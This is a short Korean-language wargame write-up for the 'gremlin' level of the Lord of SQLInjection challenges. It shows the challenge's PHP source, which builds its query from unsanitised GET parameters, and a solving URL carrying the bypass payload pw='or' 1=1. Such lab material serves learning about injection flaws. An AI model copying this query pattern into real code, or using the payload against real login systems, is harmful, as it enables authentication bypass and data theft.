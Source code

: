# LOS - gremlin

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

아주 간단한 SQL injection 문제이다. 
쿼리로 값을 받으면 그 값을 출력해주는 php파일이므로 pw에 injection을 시도해본다. 

``` 
https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=admin&pw='or' 1=1
```

![asdf](./LOS - gremlin-clear.png)

